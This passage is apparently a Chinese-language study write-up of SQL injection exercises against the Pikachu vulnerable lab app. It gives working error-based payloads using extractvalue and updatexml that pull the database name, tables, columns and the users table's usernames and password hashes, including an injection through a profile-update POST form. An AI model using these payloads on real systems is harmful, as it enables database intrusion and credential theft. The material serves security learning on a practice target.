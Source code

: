 
可以抓包，send to repeater，使用extractvalue的方式去注入。

`1' and extractvalue(1,concat(0x7e,database())) and '`【#等注释符导致后面的括号无法闭合，所以需要and和单引号去闭合后面的内容】

`1' and extractvalue(1,concat(0x7e,select database())) and '`当使用`select database()`去注入时发现不可取，并且报错显示出密码进行了md5加密

![image-20220119201933159](https://github.com/YTR1020/Trees/blob/main/Screenshot%20or%20pictures/HW/04%20SQL%20inject.assets/image-20220119201933159-16425947738251.png)

然后可以将语句用括号完善继续注入：

`1' and extractvalue(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema="pikachu"))) and '`

``1' and extractvalue(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where (table_schema="pikachu" and table_name='users'))) and '``

``1' and extractvalue(1,concat(0x7e,(select substr(group_concat(username,0x7e,password),1) from users))) and '``

......



>（2）update注入
>update操作应该是在修改个人信息的页面
>
>
>
>非常值得注意的是，只有性别，手机，住址，邮箱全都有值的时候，才会执行修改用户信息的操作，否则该操作不执行
>
>
>
>修改信息，submit，burpsuite抓包。也是一个POST报文
>
>
>
>找闭合的步骤省略了，也是先加一个单引号，再加两个单引号，前者报错，后者修改成功，表示闭合是单引号。
>
>
>
>1、爆库  payload：`sex=nv' and updatexml(1,concat(0x7e,(select database()),0x7e),1) #&phonenum=123&add=123&email=123%40123.com&submit=submit`
>
>
>
>2、爆表
>
>没明白为什么一到这一步参数值就不可以有字符串，改成数字是可以的
>
>
>
>payload：`sex=1' and updatexml(1,concat(0x7e,substr((select group_concat(table_name) from information_schema.tables where table_schema=database()),1,31),0x7e),1) #&phonenum=123&add=123&email=123%40123.com&submit=submit`
>
>
>
>后面差不多，就是改substr的第2个参数
>
>
>